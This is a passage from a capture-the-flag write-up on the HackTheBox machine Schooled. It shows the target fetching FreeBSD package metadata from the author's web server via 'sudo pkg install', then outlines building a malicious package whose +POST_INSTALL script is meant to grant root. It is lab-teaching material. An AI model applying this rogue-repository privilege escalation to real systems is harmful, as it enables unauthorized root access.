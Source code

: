 

The server sees three requests (all 404):



    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.conf HTTP/1.1" 404 -
    10.10.10.234 - - [06/Apr/2021 08:18:57] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:57] "GET /packages/meta.txz HTTP/1.1" 404 -
    10.10.10.234 - - [06/Apr/2021 08:18:58] code 404, message File not found
    10.10.10.234 - - [06/Apr/2021 08:18:58] "GET /packages/packagesite.txz HTTP/1.1" 404 -



Similarly, the `install` command will contact me as well, requesting the
same three files:



    jamie@Schooled:~ $ sudo pkg install pwned
    Updating FreeBSD repository catalogue...
    pkg: http://devops.htb/packages/meta.txz: Not Found
    repository FreeBSD has no meta file, using default settings
    pkg: http://devops.htb/packages/packagesite.txz: Not Found
    Unable to update repository FreeBSD
    Error updating repositories!



These files tell the client (Schooled) about the packages that the
server is hosting, versions, etc.

### Generate Package

#### Overview

Now that I can make Schooled contact my VM requesting updates /
packages, I will make a malicious package that will enable root access.
There's an entire chapter [in the FreeBSD
docs](https://docs.freebsd.org/en_US.ISO8859-1/books/porters-handbook/own-port.md)
about making a new Port (what FreeBSD calls a package). [This
post](http://lastsummer.de/creating-custom-packages-on-freebsd/) gives a
simpler path to creating a package. In a staging directory, I'm going to
create a few files:

-   `+POST_INSTALL` - This is the file that will run on install.
-   `+MANIFEST` - Metadata about the package.
-   `usr/local/etc/my.conf` - This is a fake conf file that will be
    dropped into place on the installing system.
-   `plist` - Information about that conf file.

Then I need to run some `pkg` commands to create the package and the
repo files. `pkg create` (doesn't need to be run as root) will create a
package archive file. `pkg repo` will:

> <div>
>
> <div>
>
>     Create a local package repository for remote usage.
>
> </div>
>
> </div>
